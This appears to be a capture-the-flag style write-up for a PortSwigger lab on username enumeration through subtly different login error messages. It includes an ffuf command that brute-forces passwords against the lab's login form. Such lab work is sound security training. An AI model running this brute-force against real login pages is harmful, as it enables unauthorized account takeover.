


# Username enumeration via subtly different responses

**Lab Url**: [https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-subtly-different-responses](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-subtly-different-responses)



## Objective

The lab is subtly vulnerable to username enumeration and password brute-force attacks. To solve this lab, we must find a valid username and password and access the user's account page.

## Solution

The lab produces the same generic error for all `usernames` except the one that is valid. Use the **Python script** (*`./enumerate_username`*) with your `lab ID` to filter valid `username`.

After finding a valid `username` use the below script to extract the password.

```bash
ffuf -X POST \
    -u https://YOUR-LAB-ID.web-security-academy.net/login \
    -d "username=YOUR-FOUND-USERNAME&password=FUZZ" \
    -w passwords.txt \
    -mc 302
```

**Now log in with the returned username and password to solve the lab.**


